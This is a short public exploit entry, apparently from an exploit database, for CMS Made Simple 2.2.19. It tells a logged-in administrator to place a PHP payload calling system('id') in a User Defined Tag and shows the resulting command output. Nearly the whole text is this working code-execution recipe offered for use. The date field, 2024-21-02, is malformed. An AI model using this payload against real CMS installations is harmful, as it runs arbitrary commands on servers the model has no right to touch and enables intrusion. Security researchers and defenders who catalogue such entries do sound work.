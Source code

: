 # Exploit Title: CMS Made Simple Version: 2.2.19 - Remote Code Execution
# Date: 2024-21-02
# Exploit Author: tmrswrr
# Vendor Homepage: https://www.cmsmadesimple.org/
# Version: 2.2.19
# Tested on: https://www.softaculous.com/demos/CMS_Made_Simple


1 ) log in as admin and go to Extensions > User Defined Tags >
2 ) Write in Code place payload > <?php echo system('id'); ?>
3 ) After click run you will be see result :
uid=1000(admin) gid=1000(admin) groups=1000(admin) uid=1000(admin) gid=1000(admin) groups=1000(admin)
